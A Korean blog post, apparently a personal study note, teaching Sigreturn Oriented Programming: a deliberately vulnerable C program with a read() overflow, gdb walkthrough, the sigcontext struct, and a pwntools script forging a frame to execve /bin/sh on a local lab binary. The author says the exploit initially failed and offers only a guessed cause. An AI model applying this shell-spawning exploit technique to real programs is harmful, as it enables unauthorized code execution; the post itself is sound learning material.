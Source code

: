 ```yaml
---
layout: post
title: "Sigreturn oriented programming"
excerpt: "Try to know SROP & use it ~_~"
categories: [system]
comments: true 
---
```


이번에는 ROP의 다른 종류(?) 느낌인 SROP에 대하여 알아보자.

### 0x0. SROP?

sigreturn 시스템 콜을 이용하여 레지스터에 원하는 값을 저장하는 기법 > 이를 이용하여 원하는 시스템 함수를 호출

ROP를 하기에 가젯이 불충분할 경우 주로 사용 > 많은 가젯이 필요하지 않고 INT80 가젯만으로 충분



### 0x1. singal

SROP는 sigreturn으로 쉘을 따는데, sigreturn을 syscall table에서 찾아보면 eax로 119를 넘겨주면 실행되고, 파라미터로는 unsigend long이 요구된다.

시그널을 받은 프로세스가 커널 모드에서 유저모드로 복귀할 때 사용하는 system call이 sigreturn system call이다. 



### 0x2. example

```c
#include <stdio.h>

void int80(){
asm("int $0x80");
}

int main(){
char buf[8];
read(0,buf,128);
}
```

위와 같은 코드가 있을 때,  우리는 SROP를 하기 위해 read에서 bof를 발생 시킨 후 eax를 조작하고 ret addr를 int 0x80으로 넘겨줘야한다.  
후에 이를 이용하여 /bin/sh을 실행시킨다. 119개의 문자열을 입력하고 int 0x80으로 ret하면 sigreturn함수가 호출된다. 

![srop1](/img/srop1.png)

우선 read다음으로 breakpoint를 걸고 A를 118개를 넣어본다. 그 후  x/40wx $rsp를 보면 아래같이 A로 가득찬걸 볼 수 있다.

![srop2](/img/srop2.png)

다음으로는  i r 을 통하여 레지스터 값을 본다.

![srop3](/img/srop3.png)

레지스터 값을 보면 rax 레지스터에 0x77이 들어가있는걸 확인할 수 있다. 이  0x77이 바로 sigreturn의 syscall number이다.  이제는 ret addr을 int 0x80 gadget으로 덮어씌우자. 

이제 int 0x80 함수를 보면 아래와 같다.

![srop4](/img/srop4.png)

이제 int80의 주소를 main의 ret addr에 넣을것이다 . gdb에서 set {int}0xffffd1d0=0x08048413를 이용하여 가능하다.

![srop5](/img/srop5.png)

이렇게 잘 덮어씌어진걸 알 수 있다.  이제는 sigreturn를 호출하는 sigcontext.h 구조체를 봐야한다.

```c
struct sigcontext{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

이제 이를 참고하여 exploit code를 작성해보자.



### 0x3. exploit :

```python
from pwn import *
p = process('./srop')

syscall = 0x08048413

payload = "A"*20
payload += p32(syscall)
payload += p32(0x33)
payload += p32(0)
payload += p32(0x7b)
payload += p32(0x7b)
payload += p32(0)
payload += p32(0)
payload += p32(0) #ebp
payload += p32(0) #esp
payload += p32(0xffffd184)

payload += p32(0)
payload += p32(0)
payload += p32(0xb)
payload += p32(0)
payload += p32(0)
payload += p32(syscall)
payload += p32(0x73)
payload += p32(0x246)
payload += p32(0)
payload += p32(0x7b)
payload += "\x00"*(118-len(payload))

p.sendline(payload)
p.interactive()
```

아니 난 왜 대체 익스가 안되나 계속 생각해봤는데 아직도 모르겠다. 왜 계속 다른 레지스터들은 변조가 되는데 eip랑 ecx는 변조가 안될까...  결국 그냥 다시 코딩해서 해결했다. 왜 처음엔 안된걸까 

++++++
드디어 왜 안된지 알아낸 것 같다. 
The full **vsyscall** features. This config option can be found before v4.15. This includes *Ubuntu 18.04.2*. However, *Ubuntu 18.04* does **not** use this configuration.
그냥 내가 사용하는 우분투 버전인 18.04버전에서는 vsyscall이 구성되어 있지 않다고 한다... 이거 때문인 것 같다..

